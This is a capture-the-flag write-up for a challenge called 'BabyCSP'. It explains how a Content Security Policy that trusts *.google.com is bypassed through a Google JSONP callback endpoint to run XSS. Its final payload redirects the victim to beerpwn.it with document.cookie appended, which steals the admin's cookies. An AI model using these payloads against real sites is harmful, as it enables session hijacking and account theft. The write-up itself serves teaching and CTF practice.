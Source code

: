 # WRITEUP BABYCSP

## Author: p4w @beerpwn team

![Image desc](./description.png)

As the descrption/title say we will probably need to bypass CSP to trigger some XSS in order to steal the admin cookies.
Sufing to the index page we have this:
![Image index](./index.png)

The input that we can pass is totally NOT filtered and safe from XSS.

## Understanding the CSP
The ```script-src 'self' *.google.com``` directive permit to use scripts that are coming from *.google.com, and also from the same domain.
The ```connect-src *``` directive restricts the URLs which can be loaded using script interfaces. Then in this case every URL are allowed.

## Bypassing the CSP
This is what I was thinking during the CTF:
since we can't control directily any file contents from the same domain, then we can try to 'host' some XSS payload on google subdomain. At the beginning I tried to use googleDrive to host some XSS-file but i had no lucky with that and I dind't manage to serve the raw file from google subdomains. So the second idea that comes in my mind was to use JSONP callback. More info about JSONP <a href="https://www.w3schools.com/js/js_json_jsonp.asp">here</a>. So after a bit of googling I found <a href='https://github.com/zigoo0/JSONBee'>this</a> page. So I used this ```https://cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()``` endpoint for JSONP callback.

## Fire the XSS 
Now with this payload
`<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=alert()'></script>
`
we will be able to pop up an alert bypassing the CSP.
The only problem that I had to solve now is that some character are not usable with this JSON endpoint...
`? / ,` and probably more others are not allowed to construct the callback function.
So i comed up with this:
<code>
<script src='//cse.google.com/api/007627024705277327428:r3vs7b0fcli/popularqueryjs?callback=location.replace(String.fromCharCode(47).concat(String.fromCharCode(47).concat("beerpwn.it").concat(String.fromCharCode(47).concat(document.cookie))))'></script></code>

